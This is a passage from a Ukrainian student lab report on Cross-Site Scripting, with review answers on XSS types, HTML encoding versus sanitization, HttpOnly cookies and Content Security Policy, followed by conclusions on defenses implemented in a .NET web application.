Reflected XSS виникає, коли вхідні дані користувача негайно повертаються сервером у відповіді без збереження в БД (наприклад, у повідомленнях про помилку чи результатах пошуку). Stored XSS виникає, коли шкідливий скрипт зберігається на сервері (у базі даних, файлі, журналі) і пізніше багаторазово транслюється іншим користувачам. DOM-based XSS виникає виключно на стороні клієнта в браузері, коли клієнтський JavaScript читає дані з небезпечного джерела (source, наприклад location.hash) і записує їх у небезпечний приймач (sink, наприклад document.write або innerHTML) без участі сервера.

2. Яка різниця між HTML-екрануванням та санітизацією контенту?
HTML-екранування (HTML Encoding) перетворює спеціальні символи (<, >, &, ", ') на їх безпечні HTML-сутності (&lt;, &gt;, &amp;, &quot;, &#39;), щоб браузер інтерпретував їх як текст, а не як виконавчий код. Санітизація контенту (AntiXSS Sanitization) використовується тоді, коли застосунок повинен дозволити користувачеві вводити форматований текст (Rich Text / HTML), але при цьому повинен безпечно вирізати або нейтралізувати всі небезпечні теги (<script>, <iframe>, <object>) та обробники подій (onerror, onload, onclick, onmouseover).

3. Як прапорець HttpOnly захищає користувацьку сесію при наявності вразливості XSS?
Прапорець HttpOnly вказує браузеру, що доступ до даного cookie через клієнтські скрипти (зокрема об'єкт document.cookie) суворо заборонений. Навіть якщо зловмисник знайде можливість виконати довільний JavaScript-код на сторінці (XSS), він не зможе зчитати значення сесійного токена, що запобігає викраденню сесії користувача.

4. Що таке Content Security Policy (CSP) та яку роль вона відіграє у захисті від XSS?
Політика безпеки вмісту (Content Security Policy, CSP) — це HTTP-заголовок, який дозволяє адміністраторам декларувати дозволені джерела завантаження та виконання динамічних ресурсів (скриптів, стилів, зображень, фреймів). CSP захищає від XSS шляхом заборони виконання вбудованих інлайн-скриптів ('unsafe-inline') та блокування завантаження коду з несанкціонованих доменів.


## 6. Висновки

Підсумки роботи: У ході виконання лабораторної роботи №6 було детально досліджено спектр загроз безпеки веб-систем категорії OWASP Top 10 A7: Cross-Site Scripting (XSS) на базі створеного серверного застосунку сервісу TechFix Enterprise на платформі .NET 10. Було успішно змодельовано та проаналізовано атаки відбитого скриптингу (Reflected XSS), персистентного збереження шкідливого коду у відгуках (Stored XSS), вразливості клієнтських сінків (DOM-based XSS) та ризики компрометації сесійних ідентифікаторів (CWE-79, CWE-1004).

Практичне значення: Для кожного сценарію було реалізовано надійні захисні практики Secure by Design: контекстне екранування символів за допомогою системного компонента System.Text.Encodings.Web.HtmlEncoder, дезінфекцію тегів та JavaScript-схем за допомогою регулярних виразів, сувору верифікацію цільових URL за білим списком (whitelist validation), а також примусове впровадження прапорців HttpOnly=true, Secure=true, SameSite=Strict для захисту сесійних кукі.

Академічна відповідність: Усі зміни та нові ендпоінти збережено в репозиторії Git (коміт f1356dd) за кумулятивним принципом, зберігши працездатність усіх попередніх модулів (лабораторні роботи №1–№5). Результати перевірено автоматизованими тестами в інтерфейсі Swagger UI. Завдання виконано у повному обсязі згідно з вимогами ТНТУ імені Івана Пулюя.
